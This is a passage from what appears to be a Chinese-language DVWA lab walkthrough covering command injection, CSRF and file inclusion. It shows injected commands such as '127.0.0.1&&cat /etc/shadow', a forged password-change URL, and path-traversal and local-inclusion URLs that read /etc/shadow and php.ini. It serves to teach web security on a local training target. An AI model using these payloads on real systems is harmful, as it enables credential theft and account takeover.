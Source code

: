 window和linux系统都可以用&&来执行多条命令

		127.0.0.1&&net user
Linux下输入127.0.0.1&&cat /etc/shadow甚至可以读取shadow文件

###CSRF（跨站请求伪造）
CSRF，全称Cross-site request forgery，翻译过来就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。

服务器收到修改密码的请求后，会检查参数password_new与password_conf是否相同，如果相同，就会修改密码，并没有任何的防CSRF机制

需要注意的是，CSRF最关键的是利用受害者的cookie向服务器发送伪造请求，所以如果受害者之前用Chrome浏览器登录的这个系统，而用搜狗浏览器点击这个链接，攻击是不会触发的，因为搜狗浏览器并不能利用Chrome浏览器的cookie，所以会自动跳转到登录界面。

我们可以使用短链接来隐藏URL，因为本地搭的环境，服务器域名是ip所以无法生成相应的短链接= =，实际攻击场景下只要目标服务器的域名不是ip，是可以生成相应短链接的

现实攻击场景下，这种方法需要事先在公网上传一个攻击页面，诱骗受害者去访问，真正能够在受害者不知情的情况下完成CSRF攻击。

> 漏洞利用

构造url
	http://127.0.0.1/DVWA/vulnerabilities/csrf/？password_new=password&password_conf=password&Change=Change#
当受害者点击了这个链接，他的密码就会被改成password


###File Inclusion（文件包含）
File Inclusion，意思是文件包含（漏洞），是指当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。

服务器端对page参数没有做任何的过滤跟检查。服务器期望用户的操作是点击下面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是php，都会尝试当做php文件执行，如果文件内容确为php，则会正常执行并返回结果，如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。

> 漏洞利用

1.本地文件包含

构造url
	http://127.0.0.1/DVWA/vulnerabilities/fi/？page=/etc/shadow
报错，显示没有这个文件，说明不是服务器系统不是Linux，但同时暴露了服务器文件的绝对路径
	C:\phpstudy\WWW
构造url（绝对路径）
	http://127.0.0.1/DVWA/vulnerabilities/fi/?page=C:\phpstudy\WWW\dvwa\php.ini
成功读取了服务器的php.ini文件
	; This file attempts to overwrite the original php.ini file. Doesnt always work. magic_quotes_gpc = Off allow_url_fopen = On allow_url_include = On
构造url（相对路径）
    http://127.0.0.1/DVWA/vulnerabilities/fi/?page=..\..\..\..\..\..\..\..\..\phpstudy\WWW\dvwa\php.ini
加这么多..\是为了保证到达服务器的C盘根目录

2.远程文件包含
当服务器的php配置中，选项allow_url_fopen与allow_url_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致任意远程代码执行。

在远程服务器192.168.5.12上传一个phpinfo.txt文件，内容如下
![](http://image.3001.net/images/20161106/14784222814815.png)
